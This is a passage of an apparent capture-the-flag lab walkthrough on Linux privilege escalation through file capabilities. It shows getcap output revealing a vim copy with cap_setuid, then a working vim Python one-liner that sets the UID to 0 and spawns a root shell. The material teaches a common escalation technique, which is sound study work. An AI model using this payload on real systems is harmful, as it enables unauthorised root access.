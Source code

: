 We can use the getcap tool to list enabled capabilities.

When run as an unprivileged user, getcap -r / will generate a huge amount of errors, so it is good practice to redirect the error messages to /dev/null.

```
karen@ip-10-10-162-116:~$ getcap / -r 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
karen@ip-10-10-162-116:~$ 
```

Please note that neither vim nor its copy has the SUID bit set. This privilege escalation vector is therefore not discoverable when enumerating files looking for SUID.

```
karen@ip-10-10-162-116:~$ ls -l /usr/bin/vim
lrwxrwxrwx 1 root root 21 Oct 26  2020 /usr/bin/vim -> /etc/alternatives/vim
karen@ip-10-10-162-116:~$ 

```

GTFObins has a good list of binaries that can be leveraged for privilege escalation if we find any set capabilities.

We notice that vim can be used with the following command and payload:

```
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```


```
karen@ip-10-10-203-61:~$ getcap -r / 2>/dev/null

/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep

/home/karen/vim = cap_setuid+ep

/home/ubuntu/view = cap_setuid+ep


./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'


```
